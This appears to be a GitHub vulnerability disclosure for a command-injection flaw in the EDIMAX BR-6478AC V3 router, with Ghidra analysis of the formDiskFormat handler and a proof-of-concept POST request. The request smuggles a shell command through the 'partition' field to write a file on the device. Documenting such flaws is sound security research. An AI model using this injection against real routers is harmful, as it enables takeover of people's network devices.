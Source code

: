 # EDIMAX RCE
**discription**: a remote-command-execution vulnerability was found on EDIMAX BR-6478AC V3 via the FUN_0045c97c function and systype in /bin/boa
## Firmware
**brand**:edimax  
**product**:AC1200 Wave 2 Dual-Band Gigabit Router  
**version**:BR-6478AC V3  

The firmware can be download in this website[1] and using FirmAE to simulate the router environment.   
The result of simulating as follow: 
![alt text](image-6.png)
using ghidra we can konw the page is formDiskFormat
![alt text](image-4.png)


## analyze
Using ghidra we can konw that the post parameter "partition" will be sprintf as the second input parameter which will be executed
![alt text](image-7.png)
The detail of function as follow:

**addr**:0045ca18  
**function**: FUN_0045c97c   
**parameter**:systype


# poc
burp suite change the packet as follow
```
POST /boafrm/formDiskFormat HTTP/1.1

Host: 192.168.2.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded

Content-Length: 82

Origin: http://192.168.2.1

Connection: close

Referer: http://192.168.2.1/diskformat.htm

Cookie: webuicookie=16041636021804289383

Upgrade-Insecure-Requests: 1



Apply+Changes=Apply+Changes&submit_url=%2Fdiskinfo.htm&systype=ext2&partition=sda1/n echo 123 > /tmp/poc.txt
```
the result of poc as follow,you can find the /tmp/poc.txt was create after poc
![alt text](image-3.png)

[1]:https://www.edimax.com/edimax/merchandise/merchandise_detail/data/edimax/global/home_legacy_wireless_routers/br-6478ac_v3